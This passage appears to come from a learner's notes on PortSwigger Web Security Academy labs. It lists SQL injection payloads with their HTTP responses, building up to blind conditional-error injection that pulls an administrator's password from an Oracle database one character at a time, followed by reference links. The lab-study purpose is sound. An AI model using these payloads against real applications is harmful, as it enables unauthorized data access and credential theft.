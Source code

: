     ```sql
                        (Content-Length: 2893, 200 OK)
    '                   (Content-Length: 2132, 500 Internat Server Error)

    '+AND+'1'='1        (Content-Length: 2893, 200 OK)
    '+AND+'1'='0        (Content-Length: 2893, 200 OK)
    '+AND+1=1--+        (Content-Length: 2893, 200 OK)
    '+AND+1=0--+        (Content-Length: 2893, 200 OK)
    '+AND+1='a'--+      (Content-Length: 2132, 500 Internat Server Error)

    ''                  (Content-Length: 2893, 200 OK)  
                        (With double quotes, the error disappears. This suggests that a syntax error  
                        [in this case, the unclosed quotation mark] is having a detectable effect on the response.)

    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+1--+

    '+UNION+SELECT+null--+
    v1: '+UNION+SELECT+null+FROM+dual--+
    v2: ' || (SELECT null FROM dual) || '

    v1: '+UNION+SELECT+null+FROM+users--+
    v2: ' || (SELECT null FROM users WHERE ROWNUM = 1) || '

    ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
    ' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '

    ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '

    ' || (SELECT CASE WHEN (LENGTH(password)>10) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
    ...
    ' || (SELECT CASE WHEN (LENGTH(password)=20) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '


    ' || (SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
    ...
    ' || (SELECT CASE WHEN (SUBSTR(password,1,1)='8') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '

    ...

    ' || (SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
    ...
    ' || (SELECT CASE WHEN (SUBSTR(password,20,1)='8') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '

    8knjfapro4g999hxxxn8
    ```

13. #### **Blind SQL injection with time delays**

    > 📝 **Note:**
    <mark>None of the previous techniques works because
    "the application now catches database errors and handles them gracefully.  
    Triggering a database error when the injected SQL query is executed
    no longer causes any difference in the application's response".</mark>


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind